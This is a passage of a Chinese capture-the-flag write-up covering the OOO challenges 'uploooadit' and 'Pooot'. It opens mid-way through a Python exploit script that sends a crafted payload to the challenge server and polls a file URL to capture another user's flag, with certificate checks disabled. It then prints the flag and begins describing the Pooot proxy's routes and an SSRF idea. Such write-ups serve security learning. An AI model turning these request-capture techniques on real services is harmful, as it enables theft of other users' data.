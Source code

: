 ```
    with socket.create_connection(('uploooadit.oooverflow.io', 443), timeout=5) as conn:
        with context.wrap_socket(conn, server_hostname='uploooadit.oooverflow.io') as sconn:
            sconn.send(p) 
            sconn.recv(10240).decode()


def getone():
    url = "https://uploooadit.oooverflow.io/files/77777777-3333-4444-7777-333344447776"
    res = requests.get(url=url, verify=False)
    return res.text


if  __name__ == "__main__":
    content = ""
    while True:
        try:
            https()
            tmpcon = getone()
            if content != tmpcon:
                content = tmpcon
                with open('run.log','a+') as f:
                    f.write(content + '\n')
        except:
            pass
```

发现有个bot在创建文件，写入flag，然后删掉，结果偷出来不全，搜索一下，根据歌词，以及 CL长度计算出 flag



```
OOO{That girl thinks she's the queen of the neighborhood/She's got the hottest trike in town/That girl she holds her head up so high/I think I wanna be her best friend, yeah}
```







## Pooot

> The web is becoming more and more dangerous everyday. Our secure pooot proxy allows you to continue your browsing securely and hide your IP address from your visited websites! Give it a swing here: pooot.challenges.ooo



在首页源码中提示了题目的源码  `/source`，下载下来看主要有以下路由

- `/`
- `/<string:domain>/<path:path>`
- `/source`
- `/feedback`

一开始想的是SSRF，但是就是因为这个，导致一整天走偏了，疯狂测试怎么用 JS 去打 redis，ORZ
